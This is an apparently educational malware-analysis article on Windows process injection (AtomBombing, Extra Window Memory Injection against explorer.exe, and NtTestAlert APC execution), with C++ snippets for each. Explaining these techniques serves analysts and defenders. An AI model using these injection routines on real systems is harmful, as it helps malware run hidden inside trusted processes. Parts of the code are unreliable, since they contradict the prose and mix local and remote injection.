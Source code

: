 :orphan:
(malware-injection-techniques-atombombing-ewmi-nttestalert)=

# Malware Injection Techniques: AtomBombing, EWMI, NtTestAlert

AtomBombing is a malware injection technique that inserts malicious code into legitimate process threads. This technique is often used by attackers to gain persistence on a system or to elevate privileges. The code that is injected into the thread can be executed when the thread is scheduled, which allows the attacker to execute their code without needing to create a new process.

## Atom tables

Atom table - system-defined table that contains strings and their corresponding identifiers. An application stores a string in an atom table and receives an atom, a `16-bit` integer that can be used to access the string. Atom names are strings that have been placed in atom tables.

The system offers several atom tables. Each atom table serves a unique function. DDE applications, for instance, utilize the global atom table to share item-name and topic-name strings with other applications. Instead of passing actual strings, a DDE application sends its partner application global atoms. The partner retrieves the strings from the atom table using the atoms.

Local atom tables can be used by applications to store their own item-name associations.

The system employs atom tables that are inaccessible to applications directly. However, the application calls a variety of functions using these atoms. For instance, clipboard formats registered by the system are stored in an internal atom table. Using the `RegisterClipboardFormat` function, an application adds atoms to the atom table.
In addition, registered classes are stored in a system-wide internal atom table. Using the `RegisterClass` or `RegisterClassEx` function, an application adds atoms to the atom table.

### Injection

Additionally dependent on APC injection, the AtomBombing technique uses the atom table to write into the memory space of another thread.

The following function calls can cause a thread to enter the alertable state:

Alertable state functions
The following 5 functions (and their low-level syscall wrappers):

- `SleepEx` (`NtDelayExecution`)
- `WaitForSingleObjectEx` (`NtWaitForSingleObject`)
- `SignalObjectAndWait` (`NtSignalAndWaitForSingleObject`)
- `MsgWaitForMultipleObjectsEx` (`NtUserMsgWaitForMultipleObjectsEx`)
- `WaitForMultipleObjectsEx` (`NtWaitForMultipleObjects`)

Then, malware chooses a thread in a alertable state.

Calls `OpenThread`:

```cpp
//....
HANDLE th = OpenThread(THREAD_SET_CONTEXT|
THREAD_QUERY_INFORMATION, FALSE, thread_id);
```

Then:

```cpp
ATOM a = GlobalAddAtomA(payload);
NtQueueApcThread(th, GlobalGetAtomNameA, (PVOID)a,
(PVOID)(target_payload), (PVOID)(sizeof(payload)));
```

### Extra Window Memory Injection (EWMI)

The _PowerLoader_ and _Gapz_ malware families employ the _EWMI_ injection technique, which injects malicious code into the "extra window memory" of the Explorer tray window.

When a window class is registered, the application can determine an additional number of memory bytes known as extra window memory (EWM).

Since EWM space is limited, the malware stores its code in a shared section of `explorer.exe`, uses `SetWindowLong` and `SendNotifyMessage` to create a function pointer to the shellcode, and then executes it.

To write into the shared section, malware may employ either of the following strategies:

1. Create a shared section and connect it to both itself and another process.
2. access an existing shared section

Since the first method incurs an overhead when allocating heap space and calling multiple APIs, including `NTMapViewOfSection`, the second method is utilized more frequently.

After writing the code to the shared section, the malware uses `GetWindowLong` and `SetWindowLong` to access and modify the window memory of _"Shell TrayWnd"_:

```cpp
//...
    // 1. Obtain a handle for the shell tray window
    hw = FindWindow(L"Shell_TrayWnd", NULL);

    // 2. Obtain a process id for explorer.exe
    GetWindowThreadProcessId(hw, &pid);

    // 3. Open explorer.exe
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    // 4. Obtain pointer to the current CTray object
    ctp = GetWindowLongPtr(hw, 0);

    // 5. Read address of the current CTray object
    ReadProcessMemory(hp, (LPVOID)ctp,
        (LPVOID)&ct.vTable, sizeof(ULONG_PTR), &wr);

    // 6. Read three addresses from the virtual table
    ReadProcessMemory(hp, (LPVOID)ct.vTable,
      (LPVOID)&ct.AddRef, sizeof(ULONG_PTR) * 3, &wr);

    // 7. Allocate RWX memory for code
    cs = VirtualAllocEx(hp, NULL, payloadSize,
      MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 8. Copy the code to target process
    WriteProcessMemory(hp, cs, payload, payloadSize, &wr);

    // 9. Allocate RW memory for the new CTray object
    ds = VirtualAllocEx(hp, NULL, sizeof(ct),
      MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 10. Write the new CTray object to remote memory
    ct.vTable  = (ULONG_PTR)ds + sizeof(ULONG_PTR);
    ct.WndProc = (ULONG_PTR)cs;

    WriteProcessMemory(hp, ds, &ct, sizeof(ct), &wr);

    // 11. Set the new pointer to CTray object
    SetWindowLongPtr(hw, 0, (ULONG_PTR)ds);

    // 12. Trigger the payload via a windows message
    PostMessage(hw, WM_CLOSE, 0, 0);

    // 13. Restore the original CTray object
    SetWindowLongPtr(hw, 0, ctp);

    // 14. Release memory and close handles
    VirtualFreeEx(hp, cs, 0, MEM_DECOMMIT | MEM_RELEASE);
    VirtualFreeEx(hp, ds, 0, MEM_DECOMMIT | MEM_RELEASE);

    CloseHandle(hp);
//...
```

The `GetWindowLong` and `SetWindowLong` APIs are used to retrieve and modify the `32-bit` value at the specified offset in the window class object's extra window memory.

This enables the malware to change the offset of a function pointer within a window class to point to the shellcode inserted into the shared section.

To trigger the code execution, the malware calls the `SendNotifyMessage`.

_"Shell_TrayWnd"_ will receive and transfer control to the address specified by the value set by `SetWindowLong` when `SendNotifyMessage` is executed.

Malware PowerLoader disassembly using IDA Pro demonstrating the application of this technique:

![disas](images/malware-injection.png)

![disas](images/malware-injection_1.png)

### NtTestAlert

Make a main thread APC using the previously discussed `QueueUserAPC()` technique, but make the kernel run that thread instead.

The steps are as follows:

Suspend a valid process, such as the `svchost.exe` process:

```cpp
//...
STARTUPINFO si;
PROCESS_INFORMATION pi;
LPVOID my_payload_mem;
SIZE_T my_payload_len = sizeof(my_payload);
LPCWSTR cmd;
HANDLE hProcess, hThread;
NTSTATUS status;

ZeroMemory(&si, sizeof(si));
ZeroMemory(&pi, sizeof(pi));
si.cb = sizeof(si);

CreateProcessA(
"C:\\Windows\\System32\\svchost.exe",
NULL, NULL, NULL, false,
CREATE_SUSPENDED, NULL, NULL, &si, &pi
);
//...
```

Allocate memory in the created process:

```cpp
LPVOID address = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Write the shellcode into the allocated memory space:

```cpp
WriteProcessMemory(procHandle, address, my_payload, my_payload_len, NULL);
```

Queue an asynchronous procedure call (APC) to the newly-created process' main thread:

```cpp
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)address;
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
```

Call the `NtTestAlert` function to direct the kernel to execute malicious code when the main thread resumes operating since the APC can start process executing only when it is in an alertable state:

```cpp
HMODULE hNtdll = GetModuleHandleA("ntdll");
myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(hNtdll, "NtTestAlert"));
testAlert();
```

## References

- [Brand New Code Injection for Windows](https://github.com/BreakingMalwareResearch/atom-bombing)

> **Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html).**
